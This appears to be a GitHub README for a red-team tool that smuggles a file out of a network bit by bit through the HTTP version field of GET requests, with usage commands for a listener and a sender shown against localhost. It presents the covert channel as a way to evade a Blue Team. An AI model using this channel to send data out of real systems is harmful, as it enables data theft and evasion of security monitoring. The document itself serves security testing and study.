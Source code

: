 # http-protocol-exfil

Use the HTTP protocol version to send a file bit by bit ("HTTP/1.0" is a 0 and "HTTP/1.1" is a 1). It uses GET requests so the Blue Team would only see the requests to your IP address. However, it takes a long time to send bigger files, for example it needs 1 hour to send 200 KB, and the amount of requests would be very high (8 times the number of bytes of the file).

![memillo](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/memillo.png)


## Create listener 

To run the listener use listener.py with one optional argument: the port it will be listening in.

```
python3 listener.py [PORT]
```

Example:

```
python3 listener.py 8080
```

![image1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image1.png)

## Send a file

To send a file use sender.py with two mandatory arguments: the file path and the url of the listener; and one optional argument: the name of the file created remotely (if not used, the name of the input file is used).

```
python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]
```

Example:

```
python3 sender.py -u "http://127.0.0.1:8080" -i test.txt -o updated_test.txt
```

![image2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image1.png)

The new file is created with the content of the input file:

![image3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image3.png)

---------------------------------------------------------------

## Motivation

I think (I am not sure) I read someone on Twitter who claimed to have used this to exfiltrate data and I liked the idea, if you are that person let me know.